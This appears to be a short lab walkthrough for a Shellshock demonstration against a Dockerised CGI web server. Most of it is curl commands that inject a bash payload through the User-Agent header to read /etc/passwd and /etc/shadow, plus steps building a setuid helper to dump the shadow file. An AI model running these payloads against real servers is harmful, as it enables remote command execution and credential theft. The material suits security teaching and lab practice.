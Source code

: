 # Start web server
docker-compose up -d


# Launch the attack
View in a browser: http://127.0.0.1:8080/
curl http://127.0.0.1:8080/cgi-bin/info
curl http://127.0.0.1:8080/cgi-bin/stats

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://your-ip:8080/cgi-bin/stats
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://127.0.0.1:8080/cgi-bin/stats

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/shadow;'" http://127.0.0.1:8080/cgi-bin/stats
docker exec -it web-server bash
chmod +r /etc/shadow


curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://127.0.0.1:8080/cgi-bin/info


gcc -o show-shadow /usr/lib/cgi-bin/cat.c
chmod u+s show-shadow
curl -H "user-agent: () { :; }; echo; echo; /usr/lib/cgi-bin/show-shadow" http://127.0.0.1:8080/cgi-bin/info